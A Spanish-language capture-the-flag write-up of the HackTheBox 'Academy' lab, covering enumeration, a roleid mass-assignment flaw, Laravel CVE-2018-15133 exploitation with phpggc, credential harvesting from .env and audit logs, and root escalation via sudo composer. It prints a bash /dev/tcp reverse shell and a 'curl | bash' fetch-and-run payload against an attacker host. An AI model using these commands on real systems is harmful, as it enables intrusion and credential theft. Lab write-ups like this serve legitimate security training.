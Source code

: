 ```yaml
---
title: HackTheBox - Academy
author: cotes
date: 2023-09-07 17:51:00 +0800
categories: [Writeup, HackTheBox, Easy]
tags: [Linux, Laravel]
math: true
mermaid: true
image:
  path: /assets/images/HTB/Easy/Academy/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Academy Machine Logo
---
```


Máquina Linux de nivel **Easy** de HackThBox.

### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos en la **`Máquina Academy`**

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

    ![](/assets/images/HTB/Easy/Academy/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos abiertos

* **`nmap -p21,80,33060 -sCV <IP> -oN versiones`**

    ```
    <SNIP>
    http-title: Did not follow redirect to http://academy.htb/
    <SNIP>
    ```

    > Tenemos un dominio, el cual debemos guardar en el archivo **`/etc/hosts`** para indicar que la **IP de la Máquina Academy** resuelva a **`http://academy.htb/`**.
    {: .prompt-info }


c. Si vistamos el servicio web, podemos **`Registrarnos`** o **`Loguearnos`**, por lo que enumeraremos por más archivos **`.php`** que puedan existir

```bash
wfuzz -c -t 10 --hc=404 -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt http://academy.htb/FUZZ.php

<SNIP>
000000256:   200        141 L    227 W      2633 Ch     "admin"
```

d. Si capturamos la petición de **registrar** con Burp Suite veremos que se envía un **`roleid`** con valor de **0** por default

* **`uid=test&password=test&confirm=test&roleid=0`**

    * Lo que haremos es cambiarlo **`1,2,3,etc`** para ver si la cuenta registrada cambia de privilegios o es válida en **`/admin.php`** 

    * El **`roleid`** válido es `1`

e. Nos autenticamos en **/admin.php** y veremos un subdominio, también lo agregamos al **`/etc/hosts`**

![](/assets/images/HTB/Easy/Academy/02-subdomain.png)


f. Si visitamos el nuevo subdominio, veremos un error de Laravel, del cual podemos extraer la **`APP_KEY`** (Variable de configuración utilizada para mantener segura la información sensible, como las sesiones, las cookies y otras características de seguridad)

1. [CVE-2018-15133](https://github.com/kozmic/laravel-poc-CVE-2018-15133) y [phpgcc](https://github.com/ambionics/phpggc)

2. El escenario será el siguiente: 
    * Crearemos con **phpgcc** un comando encodeado que realice una petición a un archivo **index.html** que estará hosteado en nuestra **Máquina Atacante** 

        ```bash
        #!/bin/bash
        bash -i >& /dev/tcp/<tun0 IP>/443 0>&1
        ```

        * Nos pondremos en escucha para servir el archivo: **`python3 -m http.server 8000`**

    * Estaremos a la espera de una reverse shell: **`nc -lvnp 443`**


    > El comando encodeado será **`curl -s -X GET http://<tun0 ip>:8000/index.html | bash`**. Con este comando obtenemos el fichero **index.html** y lo interpretaremos con bash
    {: .prompt-info }

    ```bash
    ./phpggc Laravel/RCE1 system 'curl -s -X GET http://10.10.14.115:8000/index.html | bash' -b
    ```

    * Ejecutamos el exploit

        ```bash
        ./cve-2018-15133.php <APP_KEY> <OUTPUT phpgcc>
        ```

    * El **output** del exploit lo tramitamos como cabecera en un petición por **post** a **`http://dev-staging-01.academy.htb/`**

        ```bash
        curl -s -X POST http://dev-staging-01.academy.htb/ -H "X-XSRF-TOKEN: eyJpdiI6ImFWSWpQRDZ<SNIP>="
        ```

    * Conseguiremos la reverse shell 

        ```bash
        www-data@academy:/var/www/html/htb-academy-dev-01/public$
        ```

### Escalada de Privilegios 💹

a. Listamos los archivos **.env** (Aquí se almacenan credenciales de bases de datos u otra aplicación).

```bash
DB_CONNECTION=mysql
DB_HOST=127.0.0.1
DB_PORT=3306
DB_DATABASE=academy
DB_USERNAME=dev
DB_PASSWORD=mySup3rP4s5w0rd!!
```
    
b. Existen varios usuarios en el sistema, así que intentaremos autenticarnos con la credencial **`mySup3rP4s5w0rd!!`**

```bash
su cry0l1t3
Password: mySup3rP4s5w0rd!!
script /dev/null -c bash
Script started, file is /dev/null
cry0l1t3@academy:/var/www/html$ id
uid=1002(cry0l1t3) gid=1002(cry0l1t3) groups=1002(cry0l1t3),4(adm)
```

> Grupo **`adm`:** Podemos ver archivos de **`logs`**.
{: .prompt-info }


c. Podemos listar el contenido de **`/var/log/audit`** (Aquí se almacenan logs de inicio de sesión de usuarios, cambios de permisos, etc)

* En este directorio filtraremos por líneas que contengan los nombres de los usuarios del sistema

    ```bash
    cry0l1t3@academy:/var/log/audit$ grep -r -i "mrb3n" *
    ```

d. Analizaremos en todos los archivos **`audit.log`** algo relacionado con:

* **`type=TTY`**: Relacionado con una terminal de tipo "TTY".

* **`tty pid=<N> uid=<N> auid=<N> ses=<N>`**: Estos campos registran información sobre el proceso (pid), el ID de usuario (uid), el ID de usuario auditado (auid) y la sesión (ses) asociada con el evento. 

* **`comm="[Comando]"`**: Este campo muestra el nombre del comando o programa que se estaba ejecutando cuando se registró el evento.

* **`data=[Data Hexadecimal]`**: Esta es la parte más interesante del registro y es específica del evento en sí.

    📇 En ocasiones tenemos que ejecutar dos veces seguidas este comando.

    ```bash
    grep -r "mrb3n" -C 10 | grep -i "tty" | grep "data" | awk '{print $11}' | tr -d "data=" | xxd -ps -r

    <SNIP>
    mrb3n_Ac@d3my!
    <SNIP>
    ```

e. Pasamos al usuario **`mrb3n`** con la credencial reciente y listamos nuestros privilegios a nivel de **sudoers**

```bash
mrb3n@academy:/var/log/audit$ sudo -l
[sudo] password for mrb3n: mrb3n_Ac@d3my!

User mrb3n may run the following commands on academy:
    (ALL) /usr/bin/composer
```

f. Vamos a [GTFObins](https://gtfobins.github.io/) y buscamos una forma de escalar privilegios con este permiso asignado.

* Por último, ya como **`root`** leemos las **`flags`**

    ```bash
    root@academy:/tmp/tmp.dA8tTSy4Sk# find / -name user.txt 2>/dev/null  | xargs cat
    b4fb4ebd4e45397059048b75d2572658

    root@academy:/tmp/tmp.dA8tTSy4Sk# find / -name root.txt 2>/dev/null  | xargs cat
    b031b75fe05537f90812f247d5de1177
    ```

> Después de todo este proceso, hemos finalmente vulnerado la `Máquina Academy` 🎉
{: .prompt-tip }